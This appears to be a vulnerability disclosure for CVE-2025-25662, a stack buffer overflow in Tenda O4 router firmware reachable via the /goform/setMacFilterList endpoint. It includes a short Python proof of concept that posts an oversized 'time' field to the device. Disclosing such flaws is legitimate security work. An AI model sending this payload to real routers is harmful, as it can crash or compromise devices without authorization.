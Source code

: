 #  CVE-2025-25662

download： https://www.tenda.com.cn/material/show/624459360641093

## **Affected version**

Tenda O4 V3.0 V1.0.0.10(2936)

## Vulnerability details

The vulnerability affects the function from SafeSetMacFilter of the file /goform/setMacFilterList. The manipulation of the argument remark/type/time leads to stack-based buffer overflow.

## poc

```python
import requests

ip = "ip"
url = f"http://{ip}/goform/setMacFilterList"

payload = "a" * 5000

data = {
     "action": "add",
     "time": payload
}

response = requests.post(url, data=data)

print(f"Status Code: {response.status_code}")
print(f"Response: {response.text}")
```

